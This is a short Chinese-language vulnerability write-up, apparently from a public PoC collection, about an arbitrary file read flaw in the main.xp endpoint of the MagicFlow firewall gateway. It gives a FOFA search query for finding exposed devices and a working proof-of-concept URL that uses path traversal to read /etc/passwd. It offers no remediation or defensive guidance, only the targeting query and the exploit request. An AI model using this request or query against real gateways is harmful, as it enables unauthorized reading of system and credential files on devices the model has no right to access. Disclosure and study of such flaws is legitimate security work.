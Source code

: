 # MagicFlow-防火墙网关-main.xp-任意文件读取漏洞

## 漏洞描述

MagicFlow 防火墙网关 main.xp 存在任意文件读取漏洞，攻击者通过构造特定的Url获取敏感文件

## 漏洞影响

> [!NOTE]
>
> MagicFlow 防火墙网关

## FOFA

> [!NOTE]
>
> app="MSA/1.0"

## 漏洞复现

登录页面如下

![image-20210609181301702](MagicFlow-防火墙网关-main.xp-任意文件读取漏洞.assets/1627363584971075.jpg)

构造POC

```
/msa/main.xp?Fun=msaDataCenetrDownLoadMore+delflag=1+downLoadFileName=msagroup.txt+downLoadFile=../etc/passwd
```

![image-20210609182245927](MagicFlow-防火墙网关-main.xp-任意文件读取漏洞.assets/1627363585248273.jpg)